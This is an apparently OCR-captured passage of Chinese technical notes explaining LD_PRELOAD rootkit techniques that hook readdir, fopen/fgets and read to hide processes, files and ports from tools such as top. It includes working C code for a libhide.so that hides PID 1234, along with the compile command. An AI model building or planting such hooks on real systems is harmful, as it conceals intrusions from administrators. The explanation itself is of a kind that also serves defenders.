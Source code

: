### 2. 劫持 `fopen()` / `fgets()` — 过滤 `/proc/[pid]/stat`

有些工具（如 `top`）会读取 `/proc/[pid]/stat` 来获取进程信息，因此攻击者也会重定义这些函数。

### 3. 劫持 `read()` — 过滤进程信息流

通过劫持 `read()`，在读取某些系统文件（如 `/proc/net/tcp`）时，**将特定字符串行（如某 PID、端口）移除**，实现隐藏。

------

## 🧪 三、简单的实现流程（攻击者视角）

1. 编写一个恶意共享库 `libhide.so`，实现对目标 libc 函数的“劫持”。
2. 使用 `LD_PRELOAD=/path/to/libhide.so` 启动某些关键程序或全局服务。
3. 被劫持函数运行时执行恶意逻辑，从而隐藏进程、文件、端口等信息。

------

## 🛡️ 四、示例：隐藏 PID 为 1234 的进程

### 步骤 1：创建共享库

```
c复制编辑// hideproc.c
#define _GNU_SOURCE
#include <dirent.h>
#include <dlfcn.h>
#include <string.h>

struct dirent *readdir(DIR *dirp) {
    static struct dirent *(*original_readdir)(DIR *) = NULL;
    if (!original_readdir)
        original_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *entry;
    while ((entry = original_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, "1234") == 0) // PID
            continue;
        return entry;
    }
    return NULL;
}
```

### 步骤 2：编译为共享库

```
bash


复制编辑
gcc -shared -fPIC -o libhide.so hideproc.c -ldl
```
